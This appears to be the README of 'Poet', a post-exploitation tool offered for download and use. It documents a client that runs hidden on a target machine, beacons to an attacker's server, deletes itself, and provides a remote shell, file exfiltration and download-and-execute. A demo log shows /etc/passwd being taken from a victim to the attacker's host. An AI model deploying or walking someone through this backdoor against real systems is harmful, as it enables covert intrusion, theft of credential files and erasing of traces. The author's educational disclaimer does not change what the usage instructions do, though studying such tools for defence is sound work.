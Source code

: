 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client` and `poet-server` files available.

Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy, see below).

## building

Make sure you have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

This will create a `bin/` directory which contains `poet-client`
and `poet-server`.

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily test it out, a typical invocation would look like:

Terminal 1:

```
$ ./poet-client 127.0.0.1 1 --debug --no-selfdestruct
```

> By default, the poet client daemonizes and deletes itself from disk, so
> that behavior is suppressed using the `--debug` and `--no-selfdestruct`
> flags.

Terminal 2:

```
$ sudo ./poet-server
```

> By default, the server needs to be run as root (using `sudo`) because
> the default port it binds to is 443. If that makes you uncomfortable, simply
> omit `sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
> nice, high number for your port (> 1024).

### configuration

For any non-testing usage, it is recommended to change the client
authentication token by modifying `common/config.py` before building.
Note that pre-built packages use the default, public authentication token.

### client

```
$ ./poet-client -h
usage: poet-client [-h] [-p PORT] [--debug] [--no-daemon] [--no-selfdestruct]
                   IP [INTERVAL]

positional arguments:
  IP                    Poet Server
  INTERVAL              Beacon Interval, in seconds. Default: 600

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  --debug               show debug messages. implies --no-daemon
  --no-daemon           don't daemonize
  --no-selfdestruct     don't selfdestruct
```

Poet is a client/server application. The client is executed on the target and
beacons back to the server at a certain time interval. The only required
argument is the IP address where the server is or will be running. Following
it can optionally be the time interval in seconds of how frequently to beacon
back, which defaults to 10 minutes. The port for the client to beacon out on
can be specified with the `-p` flag. All other flags would not be used during
"real" usage and exist mainly for debugging.

### server

```
$ ./poet-server -h
usage: poet-server [-h] [-p PORT] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --version         prints the Poet version number and exits
```

The server is executed on the user's own machine and listens for beacons from
the client. By default, it listens on a privileged port (443) and must be run
with privileges (which are quickly dropped after binding). The `-p` flag can
be used to bypass this by selecting an unprivileged port to listen on (>1024).

## concerns

Documented concerns:

- lack of cryptographically protected communications
- low interval beacons are **noisy** and generate TCP RSTs when the server is
  inactive
- shell command is not a "real" shell and does not support most builtins found
  in standard shells

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client.  She does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server. Later, she connects again,
self-destructing the client, removing all traces from the target.

Victim's Machine (5.4.3.2):

```
$ ./poet-client 1.2.3.4 10  # poet-client daemonizes, so there's nothing to see
```

Attacker's Machine (1.2.3.4):

```
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:58:42) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:58:42) Poet server started (port 443)
[+] (06/28/15 03:58:50) Connected By: ('127.0.0.1', 54494) -> VALID
[+] (06/28/15 03:58:50) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
posh > shell
posh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
posh > user@server $ ^D
posh > exfil /etc/passwd
posh : exfil written to archive/20150628/exfil/passwd-201506285917.txt
posh > ^D
[+] (06/28/15 03:59:18) Exiting control shell
[-] (06/28/15 03:59:18) Poet server terminated
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:59:26) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:59:26) Poet server started (port 443)
[+] (06/28/15 03:59:28) Connected By: ('127.0.0.1', 54542) -> VALID
[+] (06/28/15 03:59:28) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > selfdestruct
[!] WARNING: You are about to permanently remove the client from the target.
    You will immediately lose access to the target. Continue? (y/n) y
[+] (06/28/15 03:59:33) Exiting control shell
[-] (06/28/15 03:59:33) Poet server terminated
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
